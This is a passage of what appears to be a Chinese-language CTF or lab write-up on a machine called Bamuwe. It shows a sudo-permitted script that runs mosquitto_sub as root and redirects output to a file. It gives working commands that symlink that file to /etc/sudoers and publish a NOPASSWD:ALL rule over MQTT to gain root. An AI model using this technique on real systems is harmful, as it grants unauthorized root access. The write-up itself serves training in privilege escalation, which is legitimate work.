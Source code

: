 这是一个重大的发现！`welcome` 用户可以 **无需密码** (`NOPASSWD`) 以 **root** (`ALL`) 权限执行 `/opt/sub.sh` 脚本。接下来，需要检查这个脚本做了什么。

```bash
welcome@Bamuwe:~$ ls -al /opt/
total 12
drwxr-xr-x  2 root root 4096 Apr 28 10:50 .
drwxr-xr-x 18 root root 4096 Mar 18 20:37 ..
-rwxr-xr-x  1 root root   52 Apr 28 10:50 sub.sh
welcome@Bamuwe:~$ cat /opt/sub.sh
#!/bin/bash
/usr/bin/mosquitto_sub "$@" > /home/welcome/sub.log
```

脚本内容很简单：它执行 `mosquitto_sub`（一个 MQTT 订阅客户端），并将所有命令行参数 (`"$@"`) 传递给该命令。关键在于，脚本的标准输出被重定向到了 `/home/welcome/sub.log` 文件。由于脚本是通过 `sudo` 以 root 身份运行的，这意味着我们可以利用这个脚本以 root 权限 **写入** `/home/welcome/sub.log` 文件。

### 4.2. 利用策略 (Exploitation Strategy)

1. 这个 `sudo` 规则和脚本提供了一个清晰的提权路径：利用 root 权限写入 `/home/welcome/sub.log` 的能力，结合符号链接 (Symbolic Link) 来覆盖系统上的任意文件。我们的目标是覆盖 `/etc/sudoers` 文件，添加一条允许 `welcome` 用户无密码执行所有命令的规则。

   具体计划如下：

   1.  在 `/home/welcome/` 目录下，创建一个名为 `sub.log` 的符号链接，让它指向 `/etc/sudoers`。
   2.  在一个 SSH 终端中，以 `welcome` 用户身份执行 `sudo /opt/sub.sh -t "exp"` (选择一个 MQTT 主题，例如 "exp")。这将以 root 权限启动 `mosquitto_sub` 进程，该进程会监听 "exp" 主题，并将收到的任何消息写入 `/home/welcome/sub.log`，也就是通过符号链接写入 `/etc/sudoers`。
   3.  打开第二个 SSH 终端，同样以 `welcome` 用户身份登录。使用 `mosquitto_pub` 命令向 "exp" 主题发布一条新的 `sudoers` 规则，例如 `welcome ALL=(ALL) NOPASSWD:ALL`。
   4.  这条规则会被第一个终端中以 root 身份运行的 `mosquitto_sub` 接收，并覆盖 `/etc/sudoers` 文件。
   5.  完成以上步骤后，`welcome` 用户应该就获得了无密码执行任何命令的 `sudo` 权限。

### 4.3. 执行利用 (Executing the Exploit)

按照计划执行：

1. **创建符号链接:**
   (首先确保 `/home/welcome/sub.log` 不存在，或者删除它)

   ```bash
   welcome@Bamuwe:~$ ln -sf /etc/sudoers /home/welcome/sub.log 
   ```

2. **启动 MQTT 订阅者 (监听并准备写入 sudoers):**
   在第一个 SSH 终端窗口中执行：

   ```bash
   welcome@Bamuwe:~$ sudo /opt/sub.sh -t "exp" 
   ```

   这个命令会挂起，等待消息。此时，一个以 root 权限运行的 `mosquitto_sub` 进程正在监听 "exp" 主题，准备将收到的消息写入 `/etc/sudoers`。

3. **发布恶意的 Sudoers 规则:**
   打开第二个 SSH 终端窗口，以 `welcome` 用户登录，并执行：

   ```bash
   welcome@Bamuwe:~$ echo 'welcome ALL=(ALL) NOPASSWD:ALL' | mosquitto_pub -t "exp" -l
   ```
